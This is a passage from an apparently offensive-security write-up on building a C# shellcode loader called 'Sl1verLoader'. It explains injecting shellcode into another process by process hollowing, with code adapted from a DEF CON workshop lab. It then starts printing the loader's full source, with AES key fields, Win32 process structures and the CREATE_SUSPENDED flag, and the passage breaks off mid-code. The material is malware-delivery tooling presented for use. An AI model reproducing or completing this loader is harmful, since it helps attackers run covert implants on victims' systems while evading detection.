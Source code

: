 ```C#
        }
```

# Injecting the Shellcode into Another Process and Executing it :

for that i ended using the process hollowing script from [defcon's offensive C# workshop](https://github.com/mvelazc0/defcon27_csharp_workshop/blob/master/Labs/lab7/3.cs). you can use and C# process injection you want. 

# The Final Source Code :

i added some conditional operations to seperate the different workflows from each other. and to allow us to pass the parameters we want to the different methods
the final source code will look like this :
```C#
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Net;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;
using System.IO.Compression;
namespace Sl1verLoader
{
    public class Program
    {
        private static string AESKey;
        private static string AESIV;

        [StructLayout(LayoutKind.Sequential)]
        public class SecurityAttributes
        {
            public Int32 Length = 0;
            public IntPtr lpSecurityDescriptor = IntPtr.Zero;
            public bool bInheritHandle = false;

            public SecurityAttributes()
            {
                this.Length = Marshal.SizeOf(this);
            }
        }
        [StructLayout(LayoutKind.Sequential)]
        public struct ProcessInformation
        {
            public IntPtr hProcess;
            public IntPtr hThread;
            public Int32 dwProcessId;
            public Int32 dwThreadId;
        }
        [Flags]
        public enum CreateProcessFlags : uint
        {
            DEBUG_PROCESS = 0x00000001,
            DEBUG_ONLY_THIS_PROCESS = 0x00000002,
            CREATE_SUSPENDED = 0x00000004,
            DETACHED_PROCESS = 0x00000008,
            CREATE_NEW_CONSOLE = 0x00000010,
            NORMAL_PRIORITY_CLASS = 0x00000020,
            IDLE_PRIORITY_CLASS = 0x00000040,
```